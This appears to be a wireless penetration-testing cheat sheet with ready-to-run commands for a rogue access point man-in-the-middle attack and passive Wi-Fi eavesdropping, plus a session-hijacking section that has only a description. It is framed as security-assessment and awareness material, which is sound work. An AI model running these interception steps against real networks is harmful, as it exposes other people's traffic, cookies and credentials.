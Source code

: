 
# Advanced Wlan Techniques

### Man-in-the-Middle attack

Description:
This attack sets up a rogue access point with the same SSID as a legitimate one,
tricking clients into connecting. Once connected, the attacker can intercept, modify,
or redirect traffic. Use during security assessments to evaluate a network's resistance
to rogue APs and traffic interception risks. It demonstrates the risks of trusting
unsecured or spoofed access points and the importance of certificate pinning, VPNs,
and user awareness.

```bash
airmon-ng start wlan0                                                # Enable monitor mode on the wlan0 interface
airbase-ng -e RogueAP -c [channel] mon0                              # Create a fake AP named "RogueAP" on the specified channel
ifconfig at0 up                                                      # Bring up the virtual interface created by airbase-ng
dhcpd at0                                                            # Start DHCP server to assign IPs to clients connecting to at0
ifconfig at0 192.168.1.1 netmask 255.255.255.0                       # Set a static IP on the fake interface
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1      # Route traffic through the fake gateway
echo 1 > /proc/sys/net/ipv4/ip_forward                               # Enable IP forwarding to relay traffic
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE                 # Masquerade traffic from at0 to external network via eth0
ettercap -T -q -i at0 -M arp:remote // //                            # Launch ARP poisoning to intercept and sniff network traffic
```

### Wireless Eavesdropping
This passive attack involves capturing wireless packets in the air for later analysis.
Use during recon or to analyze open or poorly encrypted networks without disrupting them.
It reveals sensitive data or credentials transmitted in plaintext, misconfigured encryption, 
and device behavior.

```bash
airmon-ng start wlan0         # Enable monitor mode on the wireless card
airodump-ng mon0              # View available wireless networks and clients
wireshark &                   # Launch Wireshark for real-time packet capture and analysis

# Then apply display filters like:
# http                     - To view unencrypted web traffic
# tcp.port==80             - To isolate standard HTTP port traffic
# wlan.fc.type_subtype==0x08 - To view Beacon frames


```
### Session Hijacking over Wireless
This attack captures session tokens, cookies, or credentials from unencrypted network traffic to hijack user sessions.
When users connect to insecure networks (e.g., public Wi-Fi), to demonstrate risks of non-HTTPS services.
To stress the importance of HTTPS, secure cookie flags, and encrypted transport layers.
